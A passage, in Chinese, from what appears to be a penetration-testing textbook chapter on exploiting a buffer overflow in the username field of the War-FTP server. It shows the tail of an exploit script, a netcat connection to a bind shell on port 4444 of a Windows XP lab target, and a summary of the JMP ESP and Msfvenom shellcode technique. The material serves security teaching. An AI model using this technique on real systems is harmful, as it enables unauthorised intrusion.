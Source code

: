 ```
s.send('PASS PASSWORD\r\n')
s.close()
```

将 ESP 移开后，并且确保我们的 shellcode 在解码或执行过程中不会被破坏，再次运行漏洞利用，并使用 Kali Linux 上的 Netcat 连接到 Windows 目标的 TCP 端口 4444，如下所示。

```
root@kali:~# **nc 192.168.20.10 4444**
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Georgia\Desktop>
```

果然，我们现在在 Windows 目标上拥有了一个 shell，如上面所示的 Windows 命令提示符所示。

## 总结

在这一章中，我们运用了来自第十六章的知识，利用一个真实世界中的易受攻击程序：War-FTP 程序，该程序在用户名字段存在缓冲区溢出问题。我们使程序崩溃并定位了返回地址，然后，我们并没有为被覆盖的返回地址硬编码一个内存地址，而是找到了一个在加载的 DLL 中的`JMP ESP`指令。接着，我们用 Msfvenom 生成的 shellcode 填充了攻击者控制的 ESP 寄存器。现在，我们已经成功劫持了一个真实程序的控制。

在下一章中，我们将研究另一种 Windows 利用技术——结构化异常处理程序覆盖。
